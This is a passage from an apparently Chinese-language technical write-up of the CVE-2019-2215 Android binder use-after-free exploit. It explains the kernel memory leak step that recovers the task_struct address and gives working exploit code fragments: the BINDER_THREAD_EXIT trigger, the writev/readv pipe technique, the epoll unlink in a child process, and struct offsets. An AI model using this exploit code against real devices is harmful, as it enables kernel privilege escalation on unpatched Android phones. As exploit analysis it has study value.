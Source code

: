 这里需要注意的是，在开始触发unlink前，会先在父进程用```writev```阻塞管道\(前面已经把pipe的buffer设置为0x1000\)

```cpp
ioctl(binder_fd, BINDER_THREAD_EXIT, NULL);
b = writev(pipefd[1], iovec_array, IOVEC_ARRAY_SZ);
```

+ 在unlink前，父进程```writev```将```iovec[10]```指向的```dummy_page_4g_aligned```内存块的```0x1000```内存读出写入pipe，而后阻塞。
+ 而后子进程触发unlink，改写```iovec[11].iov_base```为指向```&iovec[10].iov_len```的指针，接着使用```readv```读出已经被```writev```写入pipe的```dummy_page_4g_aligned```内容
+ 此时```writev```读取```iovec[11].iov_base```的内容\(此时已被改写为指向```binder_thread.wait.task_list```的指针\)，父进程再次调用```readv```，成功读出被释放从```binder_thread.wait.task_list```开始的```0x1000```字节内容到```buffer```
+ 此时```buffer + 0xE8```即为```task```指针值。从而成功拿到当前进程的```task_struct```结构体地址\(```wait```偏移为```0xa0```, ```task```偏移为```0x190```，```wait.task_list```在```wait + 0x8```处，所以distance为```0x190-0xa0-0x8 = 0xe8```\)

```cpp
struct list_head {
        struct list_head *next, *prev;
};

struct wait_queue_head {
        spinlock_t              lock; // 8 Bytes
        struct list_head        head;
};
typedef struct wait_queue_head wait_queue_head_t;

// spinlock_t finally will be below in arm64 8Bytes
typedef struct {
#ifdef __AARCH64EB__
        u16 next;
        u16 owner;
#else
        u16 owner;
        u16 next;
#endif
} __aligned(4) arch_spinlock_t;

```

![wait.head offset](/images/cve20192215/wait_head_offset.png)

---

unlink关键利用代码如下：

```cpp
pid_t fork_ret = fork();
if (fork_ret == -1) err(1, "fork");
if (fork_ret == 0){
/* Child process */
prctl(PR_SET_PDEATHSIG, SIGKILL);
sleep(2);
printf("CHILD: Doing EPOLL_CTL_DEL.\n");
epoll_ctl(epfd, EPOLL_CTL_DEL, binder_fd, &event);
printf("CHILD: Finished EPOLL_CTL_DEL.\n");
// first page: dummy data
if (read(pipefd[0], page_buffer, sizeof(page_buffer)) != sizeof(page_buffer)) err(1, "read full pipe");
close(pipefd[1]);
printf("CHILD: Finished write to FIFO.\n");

exit(0);
```